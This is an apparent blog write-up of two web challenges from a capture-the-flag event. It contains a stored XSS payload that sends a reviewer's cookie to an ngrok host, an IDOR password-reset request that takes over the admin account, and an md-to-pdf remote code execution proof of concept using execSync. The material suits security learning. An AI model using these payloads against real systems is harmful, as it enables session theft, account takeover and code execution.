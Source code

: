 ```yaml
---
title: HTB Cyber Apocalypse Web Writeup
date: 2022-05-18 12:00:00 -0400
image: 
 src: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf0.jpg
 height: 3000
 width: 450
categories: [HTB Writeups, Cyber Apocalypse CTF]
tags: [web security, ctf, owasp]
---
```


# Kryptos Support

Checking the web page of this challenge gives a form to send an issue and an admin will review that issue.
![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf1.jpg)

So its interesting, maybe the admin will click in that issue and we can inject some kind of payload, like an stored xss, these approach is similar to the bankrobber box in htb.

So we can craft the payload to steal the cookie of the admin or the user who will review out ticket.

```bash
<script> var i=new Image(); i.src='https://yourip.sa.ngrok.io?cookie='+escape(document.cookie);</script>
```

After set up our ngrok proxy and netcat listening in one port, with this payload we can steal the reviewer account cookie.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf2.jpg)

We receive the response and the cookie 
``` bash
session=DeyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTMwMjI3OTZ9.KpxQxzNncJfI12UlhXA3t7Li8TOB18dNr0FmMCb0ksA
```

So we can create a cookie with the name session and copy the value.

From the files we can see that one directory is tickets, so i try to enter and we can see we are moderator

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf3.jpg)

We see a function to reset a password, maybe we can try an IDOR for User Account Takeover changing the password of admin. Intercepting the request to the reset password function, we can change the uid from 100 to 1, and resend with our password.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf5.jpg)

```json
{"password":"jesus","uid":"1"}
```

And finally we can login as admin with our password and see our flag

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf4.jpg)

`HTB{x55_4nd_id0rs_ar3_fun!!}`

# Blinker Fluids
Checking the web page of this challenge i can see an invoice list, i can edit, delete and export an invoice in pdf format, an interesting thing is that we submit the invoice in markdown and its converted to pdf, so lets check the source code.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf6.jpg)

We see the add function calls mdhelper to convert the markdown file to pdf, so checking mdhelper.js file we see this:

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf8.jpg)

We see that is using the `md-to-pdf` node module so with some research on google i found this [Synk Vuln DB: CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) 

Code of the POC:

``` javascript
const { mdToPdf } = require('md-to-pdf');

var payload = '---jsn((require("child_process")).execSync("id > /tmp/RCE.txt"))n---RCE';

```

Then i change the payload to copy the flag, which is in the root directory to the invoice of default in the directory static/invoices, so the payload was:

``` javascript
---javascript
((require("child_process")).execSync("cp /flag.txt /app/static/invoices/f0daa85f-b9de-4b78-beff-2f86e242d6ac.pdf")
---RCE
```
Then when i open the invoice it gives me an error, but in dev tools i can see the base64 string which is the flag.

![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/htb/ctf/ctf9.jpg)

`HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`


Thanks for read, Happy Hacking!




